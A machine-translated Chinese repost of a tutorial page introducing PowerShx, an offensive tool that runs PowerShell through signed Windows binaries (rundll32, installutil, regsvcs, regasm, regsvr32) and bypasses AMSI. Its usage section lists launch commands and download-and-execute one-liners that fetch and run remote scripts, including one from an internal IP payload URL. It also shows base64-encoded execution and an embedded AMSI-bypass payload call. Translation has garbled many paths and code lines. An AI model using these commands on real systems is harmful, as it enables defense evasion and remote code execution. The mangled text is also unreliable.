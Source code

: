 # PowerShx:不受软件限制地运行 Powershell

> 原文：<https://kalilinuxtutorials.com/powershx-2/>

[![](img//8c0cd5a8ed1f3a1a2e89dcfe0ebbebd6.png)](https://blogger.googleusercontent.com/img/a/AVvXsEhsVH5qw1nRdrMZBuPN3nRiI3spAMlE0n7BnSJg6zERW6rhEaKfJ9dglHJCUKUiWh8QBgCopLI25ZSTNoIpkVEhuRMdsA2oREe_m_N8hBj6hYK6tGyc0FwmPy4SpRiTCk7PthXK5gTXHLi4iF1U1OuUqxG_wIwOk6GQw_EES4JrsyzdQ8nPfyl6uXcS=s978)

**PowerShx** 是对 PowerShdll 项目的重写和扩展。PowerShx 提供了绕过 AMSI 和运行 PS Cmdlets 的功能。

**特色**

*   使用 rundll32.exe、installutil.exe、regsvcs.exe 或 regsvr32.exe regasm.exe 运行带有 dll 的 Powershell。
*   不使用 powershell.exe 或 powershell_ise.exe 运行 Powershell
*   AMSI 旁路功能。
*   直接从命令行或 Powershell 文件运行 Powershell 脚本
*   导入 Powershell 模块并执行 Powershell Cmdlets。

**用法**

T1。dll 版本

**rundll32**

**rundll32 PowerShx.dll，main -e
rundll32 PowerShx.dll，main -f 运行作为参数传递的脚本
rundll32 PowerShx.dll，main -f -c 加载脚本并运行 PS cmdlet
rundll32 powershx . dll，main -w 在新窗口中启动交互控制台
rundll32 PowerShx.dll，main -i 启动交互控制台
rundll32 PowerShx**

**备选方案(这些技术的分包商的信用):**

*   **x86–C:\ Windows \ Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ installutil . exe/log file =/logto console = false/U PowerShx.dll
    x64–C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 3031964 \ installutil . exe/log file =/logto console = false/U PowerShx.dll**
*   **x86 C:\Windows\Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ regsvcs . exe PowerShx.dll
    x64c:\ Windows \ Microsoft。PowerShx.dll**
*   **x86 C:\Windows\Microsoft。NET \ Framework \ v 4 . 0 . 30319 \ regasm . exe/U PowerShx.dll
    x64 C:\ Windows \ Microsoft。NET \ framework 64 \ v 4 . 0 . 30319 \ regasm . exe/U PowerShx.dll**
*   **regsvr 32/s/u PowerShx.dll—>调用 DllUnregisterServer
    regsvr 32/s PowerShx.dll—>调用 DllRegisterServer**

**。exe 版本**

**PowerShx.exe-我启动一个交互控制台
PowerShx.exe-e
PowerShx.exe-f 运行作为参数传递的脚本
PowerShx.exe-f-c 加载一个脚本并运行一个 PS cmdlet
PowerShx.exe-s 试图绕过 AMSI。**

**嵌入式有效载荷**

可以通过更新数据字典“Common”来嵌入有效载荷。Payloads.PayloadDict”并在方法 PsSession.cs -> Handle()中调用它。示例:在 Handle()方法中:

**私有 void 句柄(Options 选项)
{
//用户脚本前预执行
_ps。有效负载。payload dict[" amsi "])；
}**

**例题**

**运行 base64 编码的脚本**

**rundll32 PowerShx.dll，main[系统。Text.Encoding]::默认。GetString([System。convert]::from base64 string(" base64 "))PowerShx.exe ^| iex
e【系统。Text.Encoding]::默认。GetString([System。convert]::from base64 str**I**ng(" base64 "))^|**iex

**注意:**帝国 stagers 需要使用【System。Text.Encoding]::Unicode

**运行 base64 编码的脚本**

**rundll32 PowerShx.dll，main。{ iwr-useb https://website.com/Script.ps1 } ^| iex；
PowerShx.exe-e”IEX((new-object net . webclient)。download string(' http://192 . 168 . 100/payload-http ')"**

**要求**

。网络 4

[**Download**](https://github.com/iomoath/PowerShx)